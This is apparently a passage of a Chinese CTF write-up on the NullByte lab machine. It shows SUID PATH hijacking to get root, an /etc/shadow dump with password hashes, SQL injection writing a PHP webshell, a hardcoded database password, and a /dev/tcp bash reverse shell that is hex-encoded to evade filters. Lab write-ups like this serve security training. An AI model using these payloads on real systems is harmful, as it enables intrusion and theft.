/usr/lib/pt_chown
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/procmail
/usr/bin/at
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/sudo
/usr/sbin/exim4
/var/www/backup/procwatch
/bin/su
/bin/mount
/bin/umount
```

为了进一步缩小范围，我尝试搜索属于 `ramses` 用户组的文件。考虑到 `/proc` 目录下包含大量动态生成的进程信息，会产生很多干扰项，我使用了反向过滤。

```bash
find / -group ramses -type f 2>/dev/null |grep -v '/proc'
```

查询到的内容：

```bash
/sys/fs/cgroup/systemd/user.slice/user-1002.slice/user@1002.service/tasks
/sys/fs/cgroup/systemd/user.slice/user-1002.slice/user@1002.service/cgroup.procs
/home/ramses/.bash_logout
/home/ramses/.bash_history
/home/ramses/.profile
/home/ramses/.bashrc
```

参数含义：

- `-group ramses`：寻找所属组为 `ramses`（也就是你当前控制的账户组）的所有文件。
    
- `| grep -v '/proc'`：你非常聪明地加上了这半句。`/proc` 目录包含了系统内存和当前运行进程的虚拟信息，不仅对我们提权没啥帮助，还会产生大量无用的输出。`grep -v` 就是反向过滤，把包含 `/proc` 的结果全部剔除。

在 SUID 的搜索结果中，我发现了一个非常可疑的路径：`/var/www/backup/procwatch`。通常情况下，Web 备份目录下不会存放具有 SUID 权限的二进制程序，这极有可能是开发者留下的隐患或提权的突破口。

我又去检查了当前用户的 `bash_history`。历史记录显示该程序曾被运行过，这进一步印证了我之前的猜测。结合其特殊的权限设置，我决定重点分析这个文件。

```bash
ramses@NullByte:~$ history
    1  sudo -s
    2  su eric
    3  exit
    4  ls
    5  clear
    6  cd /var/www
    7  cd backup/
    8  ls
    9  ./procwatch 
   10  clear
   11  sudo -s
   12  cd /
   13  ls
   14  exit
```

### 确认目标

cd 到可疑目录，查看这个目录下详细的文件权限内容

```bash
ramses@NullByte:/var/www/backup$ ls -liah
total 20K
401863 drwxrwxrwx 2 root root 4.0K Aug  2  2015 .
389537 drwxr-xr-x 4 root root 4.0K Aug  2  2015 ..
391947 -rwsr-xr-x 1 root root 4.9K Aug  2  2015 procwatch
401064 -rw-r--r-- 1 root root   28 Aug  2  2015 readme.txt

```

从标红点看出，这是一个带有 SUID 权限的文件



我们可以在靶机环境中试着运行该程序，观察其行为。从输出结果来看，该程序似乎调用了系统命令来显示当前的进程状态。

```bash
ramses@NullByte:/var/www/backup$ ./procwatch 
  PID TTY          TIME CMD
 1475 pts/0    00:00:00 procwatch
 1476 pts/0    00:00:00 sh
 1477 pts/0    00:00:00 ps
```

---
### SUID 提权与 PATH 环境变量劫持

```bash
ramses@NullByte:/var/www/backup$ ls -liah
total 20K
401863 drwxrwxrwx 2 root root 4.0K Aug  2  2015 .
389537 drwxr-xr-x 4 root root 4.0K Aug  2  2015 ..
391947 -rwsr-xr-x 1 root root 4.9K Aug  2  2015 procwatch
401064 -rw-r--r-- 1 root root   28 Aug  2  2015 readme.txt
ramses@NullByte:/var/www/backup$ 
ramses@NullByte:/var/www/backup$ ./procwatch 
  PID TTY          TIME CMD
 1475 pts/0    00:00:00 procwatch
 1476 pts/0    00:00:00 sh
 1477 pts/0    00:00:00 ps
ramses@NullByte:/var/www/backup$ 
ramses@NullByte:/var/www/backup$ ln -s /bin/sh ps
ramses@NullByte:/var/www/backup$ export PATH=.:$PATH
ramses@NullByte:/var/www/backup$ ./procwatch 
# whoami
root 
```


```bash
# cat /etc/shadow
root:$6$xsD9GAM/$gpEYps/zVZ/x8INtRjYcSifltjba0JMIUogrZSed5WfRqTGjlFPT/FCC4IwPhZC7mrshv3x.CpsjnFsQupFR9/:16648:0:99999:7:::
daemon:*:16648:0:99999:7:::
bin:*:16648:0:99999:7:::
sys:*:16648:0:99999:7:::
sync:*:16648:0:99999:7:::
games:*:16648:0:99999:7:::
man:*:16648:0:99999:7:::
lp:*:16648:0:99999:7:::
mail:*:16648:0:99999:7:::
news:*:16648:0:99999:7:::
uucp:*:16648:0:99999:7:::
proxy:*:16648:0:99999:7:::
www-data:*:16648:0:99999:7:::
backup:*:16648:0:99999:7:::
list:*:16648:0:99999:7:::
irc:*:16648:0:99999:7:::
gnats:*:16648:0:99999:7:::
nobody:*:16648:0:99999:7:::
systemd-timesync:*:16648:0:99999:7:::
systemd-network:*:16648:0:99999:7:::
systemd-resolve:*:16648:0:99999:7:::
systemd-bus-proxy:*:16648:0:99999:7:::
messagebus:*:16648:0:99999:7:::
avahi:*:16648:0:99999:7:::
Debian-exim:!:16648:0:99999:7:::
statd:*:16648:0:99999:7:::
colord:*:16648:0:99999:7:::
sshd:*:16648:0:99999:7:::
saned:*:16648:0:99999:7:::
hplip:*:16648:0:99999:7:::
bob:$6$.Lz6G6L1$pKrDBW591X.z5.O/yxIA95KjyFPuHf7Rsn4qN1Sl7NlTnUSmOXs8mjMhEUWOppctEI2SZgBb8bgODXaCcdPzn/:16648:0:99999:7:::
eric:$6$0bV4YP05$O8Opq9l/TiA0jjOGi6ntepF.6FrX3F4EjbIk0bB/6/m1iC6QBmlBOVbh6IGBySSqyEDTH4H6qgMmJkZKxI4Xu/:16648:0:99999:7:::
```

### 深度了解 SUID 提权原理

#### 1. 发现漏洞点：相对路径调用

`ramses@NullByte:/var/www/backup$ ./procwatch`

当你运行 `procwatch` 时，它输出了类似系统命令 `ps` 的结果。这暗示了 `procwatch` 这个程序在内部很可能调用了 `ps` 命令来获取系统进程信息。 **问题所在：** 开发这个程序的程序员在调用 `ps` 时，很可能只写了 `system("ps");`（相对路径），而不是写死绝对路径 `system("/bin/ps");`。这就给了我们可乘之机。

#### 2. 伪造恶意程序：符号链接

`ramses@NullByte:/var/www/backup$ ln -s /bin/sh ps`

这一步，你在当前目录下创建了一个名为 `ps` 的符号链接（类似于 Windows 的快捷方式），它指向了系统的 shell 程序 `/bin/sh`。 此时，当前目录下的这个 `ps` 文件，本质上就是一个可以唤醒系统命令行的外壳。



#### 3. 核心攻击：劫持 PATH 环境变量

`ramses@NullByte:/var/www/backup$ export PATH=.:$PATH`

**这是整个提权行动最关键的一步。** Linux 系统在执行一个没有指定绝对路径的命令（比如 `ps`）时，会根据 `PATH` 环境变量中定义的目录顺序，从左到右依次去寻找这个命令。 你通过 `export PATH=.:$PATH`，将当前目录（`.`）添加到了 `PATH` 环境变量的**最前面**。 这意味着，当系统想要执行 `ps` 时，它会首先在当前目录下寻找，而不是先去系统的 `/bin/` 或 `/usr/bin/` 目录寻找。

这里新开了一个 SSH 连接对比修改环境变量的前后差别。

**原本的环境变量：**

```bash
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```

**修改后的环境变量：**

```bash
.:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```


#### 4. 触发提权：借壳生蛋

`ramses@NullByte:/var/www/backup$ ./procwatch`

当你再次运行具有 SUID 权限的 `procwatch` 时，会发生以下连锁反应：

1. `procwatch` 程序运行时，会临时借用系统最高权限 (通常为 root)。
    
2. 程序内部执行 `ps` 命令。
    
3. 系统检查 `PATH`，发现最前面是当前目录（`.`），并且当前目录下确实有一个名为 `ps` 的文件（我们手动构造软链接）。
    
4. 系统执行你伪造的 `ps` （实际上是 `/bin/sh`）。
    
5. 因为 `procwatch` 是带着 root 的 SUID 权限运行的，所以它唤醒的 `/bin/sh` 也会继承 root 权限。

至此，你就成功获得了一个具有 root 权限的 shell（通常显示为 `#` 提示符，可以通过 `whoami` 显示自身用户名称）。

> ps 命令是干什么的？

Linux ps （英文全拼：process status）命令用于显示当前进程的状态，类似于 windows 的任务管理器。

# 4.其他注入方式

### 注入文件上传

在确认具备写入权限后，我尝试通过 SQL 注入直接向之前探测到的 `/uploads/` 目录写入一个简单的 PHP 一句话木马。

```sql
?usrtosearch=" union select 1,2,"<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/uploads/shell.php" -- -
```



访问 `/uploads/shell.php` 进行测试，确认木马已成功写入并可以正常执行指令。



为了获取数据库的明文凭据，我利用刚才得到的 WebShell 权限，尝试读取 Web 目录下的关键文件 `/var/www/html/kzMb5nVYJw/420search.php`。通过审计源码，成功在数据库连接配置处发现硬编码的 root 账号密码。

```php
<?php
$word = $_GET["usrtosearch"];

$dbhost = 'localhost:3036';
$dbuser = 'root';
$dbpass = 'sunnyvale';
$conn = mysql_connect($dbhost, $dbuser, $dbpass);
if(! $conn )
{
  die('Could not connect: ' . mysql_error());
}
$sql = 'SELECT id, user, position FROM users WHERE user LIKE "%'.$word.'%" ';

mysql_select_db('seth');
$retval = mysql_query( $sql, $conn );
if(! $retval )
{
  die('Could not get data: ' . mysql_error());
}
while($row = mysql_fetch_array($retval, MYSQL_ASSOC))
{
    echo "EMP ID :{$row['id']}  <br> ".
         "EMP NAME : {$row['user']} <br> ".
         "EMP POSITION : {$row['position']} <br> ".
         "--------------------------------<br>";
} 
echo "Fetched data successfully\n";
mysql_close($conn);

?>
```


回顾之前的 Web 信息收集阶段，曾通过目录爆破发现了一个 `/phpmyadmin` 登录界面。现在既然已经通过配置文件拿到了数据库账号（root）和密码（sunnyvale），便可以尝试直接登录。

至此，通过对源码的审计，成功获取了关键凭据。



成功读取数据库下的所有内容，可以跳转到提权部分进行后续操作。




### 注入大马（常用方法）

我们想靶机上传一个木马，通过 **PHP 反弹 Shell (Reverse Shell)** 载荷，**让靶机主动发起连接，连接到你控制的机器（攻击机）上**，并将靶机的命令行终端（Shell）交给你控制。

#### **Payload:**

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.200.142/4444 0>&1'"); ?>
```

**参数解释：**

- `/bin/bash -c '...'`：调用 Linux 的 Bash 解释器，`-c` 参数表示执行后面单引号内的字符串命令。
    
- `bash -i`：在靶机上启动一个交互式的 Bash Shell（Interactive Shell），这样你才能像平常敲代码一样输入命令并看到提示符。
    
- `>& /dev/tcp/192.168.200.142/4444`：这是 Linux 中非常巧妙的网络重定向。它将 Bash Shell 的标准输出（你在屏幕上看到的结果）和标准错误，全部通过 TCP 协议发送到 IP 地址 `192.168.200.142` 的 `4444` 端口。**（注意：这个 IP 应该是你本机的 IP，4444 是你正在监听的端口）**。
    
- `0>&1`：将标准输入（键盘输入）重定向到标准输出（此时已经指向了那个网络连接）。这样一来，你在本地终端敲击的命令，就能顺着网络传给靶机执行。

#### 改良 payload 转成 hex 上传

```sql
http://192.168.200.160/kzMb5nVYJw/420search.php?usrtosearch=" union select 1,2,0x3c3f706870206578656328222f62696e2f62617368202d63202762617368202d69203e26202f6465762f7463702f3139322e3136382e3230302e3134322f3434343420303e26312722293b203f3e into outfile "/var/www/html/uploads/sh1.php" --+-
```

#### 反弹 shell

```bash
sudo nc -lvnp 4444
```

---
#### Tips:

##### 1. 什么是十六进制 (HEX)？

- **我们日常用的十进制 (Base-10)：** 只有 0 到 9 这十个数字。数到 9 之后，就要“逢十进一”，变成 10。
    
- **计算机常用的十六进制 (Base-16)：** 它有 16 个基础符号。除了 0 到 9 之外，为了表示 10 到 15，它借用了英文字母：
    
    - A = 10, B = 11, C = 12, D = 13, E = 14, F = 15。
        
    - 数到 F (15) 之后，“逢十六进一”，就变成了 10（在十六进制里读作“一零”，代表十进制的 16）。
        

在计算机世界里，任何字符（字母、数字、符号）在底层都是以数字形式存储的（比如 ASCII 码）。**HEX 就是把这些字符转换成了十六进制的数字串。**

举个例子：

- 大写字母 `A` 的十六进制是 `41`
    
- 符号 `<` 的十六进制是 `3C`
    
- 单词 `php` 的十六进制是 `706870`
    

---

##### 2. 为什么在 SQL 注入中，专家偏爱用 HEX？

回到你刚才打 NullByte 靶机的场景。把你的 PHP 反弹 Shell 代码转换成 HEX 编码，主要有两大“保命”优势：

**优势一：完美避开所有的语法冲突和截断**

正如我们上次分析的，你的原始载荷里充满了单引号 `'`、双引号 `"`、空格和 `&` 等特殊符号。这些符号在经过浏览器、HTTP 协议、Web 服务器，最后到达 MySQL 数据库的过程中，极其容易被误解、转义或者截断。

但是，如果你把整段代码转换成 HEX，比如把 `<?php ... ?>` 变成了 `0x3c3f7068...`：

1. **没有引号了：** 它变成了一串纯粹的数字和字母。
    
2. **没有特殊字符了：** 不用再担心 `&` 破坏 HTTP 请求。
    
3. **MySQL 原生支持：** 在前面加上 `0x` 前缀，就是明确告诉 MySQL：“嘿，这是一段十六进制数据，请你在处理（比如写入文件）之前，自动把它还原成原本的字符串。”
    

**优势二：绕过基础的 Web 应用防火墙 (WAF) 和过滤**

有些后端的防御代码会使用黑名单拦截恶意词汇，比如一旦发现你提交的数据里包含 `exec(` 或者 `/bin/bash`，就直接把你封杀。 当你使用 HEX 编码后，肉眼和基础的过滤器看到的只是一串毫无意义的 `0x70687065786563...`，从而能够悄无声息地“偷渡”进数据库内部。数据库将其还原后，致命的 PHP 代码就已经安安静静地躺在目标文件里了。

---

##### 3.指出需要注意的问题

- **HEX 不是加密，只是编码：** 任何人拿到这串十六进制代码，都可以轻易地将其反向解码出原文。它的目的不是为了保密，而是为了“在复杂的传输环境中保持数据的完整性”以及“规避基于特征的过滤”。
    
- **前缀 `0x` 很关键：** 在 MySQL 中，如果你只写 `3c3f70`，它会报错或者不认识；加上 `0x`（即 `0x3c3f70...`），MySQL 才会将其识别为 HEX 数据并进行解码。
    

##### 4. 致命错误：HTTP 协议层面的特殊字符被截断

这是最容易被忽略，也是导致这段 Payload 绝对无法成功执行的原因。

- **问题点：** 你的 Bash 载荷中包含了 `>&` 和 `0>&1`。在 URL 中，`&` 符号具有极其特殊的含义——它是 **HTTP GET 请求参数的分隔符**。
    
- **发生的情况：** 当 Web 服务器接收到这个 URL 时，它会在遇到第一个 `&` 时截断 `usrtosearch` 变量。也就是说，服务器认为你的注入语句到 `bash -i >` 就结束了，然后把 `/ dev/tcp/...` 当作了一个全新的、无法识别的参数。这不仅破坏了你的 PHP 代码，也破坏了整个 SQL 语句的完整性。
    
- **解决办法：** 你必须对 URL 中的特殊字符进行 **URL 编码**。`&` 需要编码为 `%26`，空格通常编码为 `%20` 或 `+`。


---
# 5.总结

总结一下，在进行主机发现后，我们进行端口扫描，发现 80、111、777 和一个高位端口是开放的，做完 nmap 扫描后，并没有发现更多有价值的内容，所以我们直扑 80 端口进行渗透测试。

通过浏览器访问 Web 界面，发现页面仅包含一张图片和一段文字。随后通过目录爆破发现了 `/uploads`、`/phpmyadmin` 和 `/javascript` 等目录。在尝试访问并确认无直接进展后，我重新审视主页图片，通过隐写分析发现了一段隐藏信息。经过测试，确认该信息指向一个隐藏的网页路径。

进入该路径后，页面呈现一个要求输入 Key 的表单。查看网页源码后，发现注释提示该密码并不复杂，且明确未连接数据库。这使我排除了 SQL 注入的思路，在简单的弱口令尝试失败后，我决定使用工具进行爆破。成功获取密码并登录后，页面跳转至一个用户名查询表单。

经过简单测试，我怀疑该查询表单存在 SQL 注入漏洞。随后我按照常规流程进行了注入测试，包括闭合符号探测和列数猜解，并最终通过 Union 注入成功获取了数据库中的敏感内容。

在获取的数据中，有一条关于 RAMES 用户的密码记录具有重要价值。该密码以 Base64 编码形式存储，解码后得到一个 MD5 哈希值。经破解获取明文密码后，我成功通过 SSH 登录系统，拿到了初始的立足点（Footprint）。

在提权阶段，我进行了初步的信息枚举。通过搜索当前用户具有执行权限的文件，锁定了名为 `procwatch` 的可执行程序。运行后发现，该程序调用了 `ps` 命令。我随即产生通过 `PATH` 环境变量劫持该进程的思路：自定义一个恶意 `ps` 连接实际指向的是`/bin/bash` 并将其路径加入环境变量前列。执行程序后，成功触发劫持并获取了 Root 权限，完成了对该靶机的渗透。


